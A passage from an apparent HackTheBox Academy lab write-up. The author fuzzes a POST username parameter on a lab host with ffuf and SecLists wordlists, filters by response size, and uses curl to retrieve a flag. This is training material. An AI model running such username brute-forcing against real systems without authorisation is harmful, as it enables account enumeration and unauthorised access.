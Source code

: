 >ffuf -w /opt/useful/SecLists/Usernames/top-usernames-shortlist.txt:FUZZ -u \http://faculty.academy.htb:41440/courses/linux-security.php7 -X POST -d 'username=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded'

Which output the following results:

![[Pasted image 20240325154426.png]]

When a filter was applied to these results, no valid results were returned.

I then attempted to use the 'root' username to try to access the page:

>curl \http://faculty.academy.htb:41440/courses/linux-security.php7 -X POST -d 'username=root' -H 'Content-Type: application/x-www-form-urlencoded'

This did not grant access or return a flag. I tried some more usernames like 'admin', 'administrator', 'vagrant', and 'puppet', yet none of these granted access. I became suspicious of the filtering anomaly and decided to use a different username wordlist from the SecLists directory.

I decided to use a larger wordlist of usernames:

>/opt/useful/SecLists/Usernames/xato-net-10-million-usernames.txt

I once again ran the following modified command to implement the new wordlist and enumerate possible usernames:

>ffuf -w /opt/useful/SecLists/Usernames/xato-net-10-million-usernames.txt:FUZZ -u \http://faculty.academy.htb:41440/courses/linux-security.php7 -X POST -d 'username=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded'

This command yielded an overwhelming amount of results that needed to be filtered out by file size. I filtered the results with the following command:

>ffuf -w /opt/useful/SecLists/Usernames/xato-net-10-million-usernames.txt:FUZZ -u \http://faculty.academy.htb:41440/courses/linux-security.php7 -X POST -d 'username=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs 781

This yielded only two username results instead of many: 'harry', and 'Harry'.

![[Pasted image 20240325160649.png]]

I then curled the username harry with the following command:

>curl \http://faculty.academy.htb:41440/courses/linux-security.php7 -X POST -d 'username=harry' -H 'Content-Type: application/x-www-form-urlencoded'

This command yielded the flag in the POST response header as shown below:

![[Pasted image 20240325160915.png]]

This flag satisfied the requisites for the final objective, leading to completion of the module after about 5 hours of diligent efforts.

### Summary

